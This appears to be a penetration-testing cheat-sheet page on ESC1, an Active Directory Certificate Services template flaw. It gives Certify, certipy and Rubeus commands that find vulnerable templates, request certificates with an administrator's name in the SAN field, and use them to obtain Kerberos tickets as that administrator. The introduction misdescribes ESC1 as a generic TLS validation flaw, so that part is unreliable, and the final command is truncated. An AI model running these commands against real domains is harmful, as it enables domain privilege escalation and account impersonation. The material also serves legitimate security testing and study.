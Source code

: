 # ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

#### ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

The Arbitrary Subject Alternative Name (SAN) Vulnerability refers to a security flaw in certificate validation mechanisms of TLS/SSL protocols. This vulnerability allows attackers to issue certificates that include unauthorized domain names in the SAN field, potentially enabling phishing attacks or man-in-the-middle (MITM) attacks.&#x20;

It stems from inadequate verification of the entities that request certificates and the domains listed in the SAN field.

To mitigate this vulnerability, it's essential to:

* Implement strict validation processes for certificate requests, ensuring that the entity requesting the certificate has legitimate control over the domains listed in the SAN field.
* Use Certificate Transparency logs to monitor and identify potentially malicious certificates.
* Employ modern TLS libraries and configurations that adhere to best practices in certificate validation.

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```

To **abuse this vulnerability to impersonate an administrator** one could run:

```bash
Certify.exe request /ca:dc.theshire.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
```

Then you can transform the generated **certificate to `.pfx`** format and use it to **authenticate using Rubeus or certipy** again:

```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 
```
